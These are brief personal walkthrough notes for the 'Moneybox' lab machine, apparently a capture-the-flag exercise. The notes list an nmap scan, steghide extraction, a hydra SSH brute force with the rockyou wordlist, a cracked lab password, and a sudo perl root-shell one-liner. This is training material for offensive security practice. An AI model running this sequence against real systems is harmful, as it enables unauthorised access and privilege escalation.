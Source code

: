 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# Moneybox
# 5/2/2023

----------------------------------------------------
# nmap result
----------------------------------------------------
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))


ftp 192.168.54.230 





3xtr4ctd4t4

apt-get install steghide

steghide --extract -sf trytofind.jpg

hydra -l renu -P /usr/share/wordlists/rockyou.txt 192.168.54.230 ssh

renu:987654321
ssh lily@127.0.0.1
sudo perl -e 'exec "/bin/sh";'
